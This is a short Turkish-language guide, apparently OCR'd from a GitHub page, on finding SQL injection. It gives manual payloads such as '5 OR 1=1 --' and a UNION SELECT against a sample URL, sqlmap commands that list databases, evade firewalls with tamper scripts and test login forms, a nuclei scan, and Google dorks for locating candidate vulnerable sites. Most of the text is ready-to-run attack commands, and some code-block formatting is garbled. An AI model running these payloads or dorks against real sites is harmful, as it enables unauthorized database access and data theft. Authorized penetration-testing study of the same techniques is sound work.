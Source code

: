 - Tek Tırnak ve Boolean Testleri
Normal giriş: 5
Tırnak ile test: 5'
```sql
Boolean testi: 5 OR 1=1 --
Eğer OR 1=1 -- sorgusunda tüm kayıtlar listelenirse, SQL enjeksiyonu mümkün olabilir.
```

- UNION-Based SQLi Testi
Eğer SQL sorgusuna UNION operatörü eklenirse ve ek veriler çekilebiliyorsa, SQL Injection açığı olabilir.
sql
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3,4,5 --
```
## Eğer sayfalarda yeni değerler görüntülenirse, SQLi açığı mevcut olabilir.

2. Otomatik Araçlarla SQL Açığı Tespiti
- SQLmap ile SQL Açığı Tespiti
SQLmap, SQL Injection tespiti ve sömürme işlemleri için kullanılan en popüler araçlardan biridir.
## Temel tarama komutu:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
- --dbs: Veritabanı adlarını listeler.
```
## Güvenlik duvarı (WAF) varsa yavaş tarama:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs --random-agent --tamper=space2comment
```
## Form verisi içeren istekleri test etmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

- Nuclei ile SQL Açığı Tespiti
Nuclei, SQL Injection dahil birçok güvenlik açığını test etmek için kullanılabilir.
bash
nuclei -t cves/ -u https://target.com

- SQLi Dorkları ile Google'da Açık Arama
Google Dork kullanarak potansiyel SQL Injection açıkları olan siteleri bulabilirsiniz.
## Google Dork Örnekleri:
bash
```sql
inurl:"php?id="
inurl:"product.php?id="
```
- Açıklama: Google'da bu tür parametreleri içeren sayfaları bulup manuel test yapabilirsiniz.

